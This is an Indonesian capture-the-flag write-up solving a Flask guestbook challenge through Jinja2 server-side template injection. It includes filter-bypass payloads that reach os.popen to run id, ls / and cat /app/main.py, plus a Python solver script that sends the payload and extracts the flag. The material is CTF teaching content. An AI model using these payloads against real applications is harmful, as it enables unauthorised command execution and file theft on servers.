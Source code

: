 ## Guestbook (Beta)

<details>
  <summary>Deskripsi</summary>
  
  > You know what you do!
  >
  > http://0x7e7ctf.zerobyte.me:40009/
  >
  > Author: novran
  
</details>

![1](img/1.png)

Diberikan sebuah challenge web yang diminta untuk menginputkan Nama, yang jika disubmit akan tampil Namanya

![2](img/2.png)

Kemudian kami coba cari Tech Stack pada webnya ternyata menggunakan Flask, mengingat Flask ini dapat bisa juga vulnerable dengan SSTI apabila kesalahan dalam scriptingnya.

![3](img/3.png)

Lalu kami coba lakukan exploitasi pada inputnya, setelah saya menginputkan basic payload umum pada SSTI `{{7*7}}` dan ternyata benar bahwa kita bisa melakukan SSTI disini.

![4](img/4.png)

Berikut adalah link repo segala payload yang kami gunakan untuk melakukan bypass filters https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2

![5](img/5.png)

![6](img/6.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

<br/>

![7](img/7.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')()}}
```

<br/>

Dapat dibuktikan bahwa payload tersebut telah berhasil dieksekusi, oleh karena itu tinggal cari flag dan baca isi file saja.

![8](img/8.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /app/main.py')|attr('read')()}}
```

<br/>

Penyelesaian dengan Solver

```python
import requests
import re

url = "http://0x7e7ctf.zerobyte.me:40009"
endpoint = "/?name="
payload = "{{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuiltins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27cat%20/app/main.py%27)|attr(%27read%27)()}}"

response = requests.get(url + endpoint + payload)

flag = re.findall(r'0byteCTF\{[A-Za-z0-9_]+\}', response.text)
print(flag)
```

<details>
  <summary>Flag</summary>
  
  > `0byteCTF{Th3_M4n_wh0_Th1nks_h3_C4n_4nd_th3_M4n_wh0_Th1nks_h3_C4nt_4r3_B0th_R1ght}`
  
</details>
